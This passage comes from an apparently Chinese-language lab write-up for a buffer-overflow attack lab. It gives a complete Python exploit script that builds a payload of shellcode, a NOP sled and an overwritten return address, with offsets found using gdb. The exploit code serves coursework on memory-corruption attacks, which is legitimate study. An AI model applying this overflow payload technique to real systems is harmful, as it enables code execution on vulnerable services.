 使用 `nasm` 生成机器码写入‘exploit.py’脚本，这个脚本其余部分与上一个task5一样，利用 `fread` 开辟的内存进行攻击，偏移量略有不同，通过 `gdb` 计算一下就好。

以下是’exploit.py’：

```bash
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
    "\xc6\x04\x25\xc8\x34\x40\x00\x10"
    "\xc6\x04\x25\xc9\x34\x40\x00\x74"
    "\xc6\x04\x25\xca\x34\x40\x00\xe2"
    "\xbf\xa0\x20\x40\x00"
    "\xb8\xb7\x12\x40\x00\xff\xe0"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 128             # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00007fffffffe2b0 + 1088 + 128 # Change this number
offset = 120            # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

最后的攻击效果：

![Untitled](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Untitled%206.png)
